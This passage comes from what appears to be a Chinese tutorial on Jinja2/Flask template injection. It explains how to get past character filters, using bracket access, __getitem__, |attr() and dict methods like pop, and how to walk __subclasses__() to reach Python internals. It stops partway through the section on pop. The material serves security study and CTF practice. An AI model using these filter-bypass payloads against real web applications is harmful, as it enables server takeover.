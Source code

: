 ```python
{% for i in ['a','1'] %}
{{ item }}
{% endfor %}
```

#### 变量属性的获取

首先将方法列出来

```
dict['__builtins__']
dict.__getitem__('__builtins__')
dict.pop('__builtins__')
dict.get('__builtins__')
dict.setdefault('__builtins__')
list[0]
list.__getitem__(0)
list.pop(0)
```

下面开始讲解

##### `.`与`[]`

除了标准的python语法使用点`（.）`外，还可以使用中括号`（[]）`来访问变量的属性

```
{{"".__class__}}
{{""['__classs__']}}
```

**所以过滤了点，我们还可以用中括号绕过。**
如果想调用字典中的键值，其本质其实是调用了魔术方法`__getitem__`
**所以对于取字典中键值的情况不仅可以用`[]`，也可以用`__getitem__`**

##### 魔术方法`__getitem__`的使用

通常情况下，我们这样使用`字典.__builtins__`等价于下面这个语句

```
|attr('__getitem__')('__builtins__')
```

对于列表来说，我们通常使用`列表[177]`来获取其第177位元素

```python
|attr('__getitem__')(177)
除此以外，发现flask里面
[].__class__.__base__.__subclasses__()[189]
等价于
[].__class__.__base__.__subclasses__().189
```

##### 字典等自带的方法

###### pop

对于字典来说，我们也可以用他自带的一些方法了，比如pop
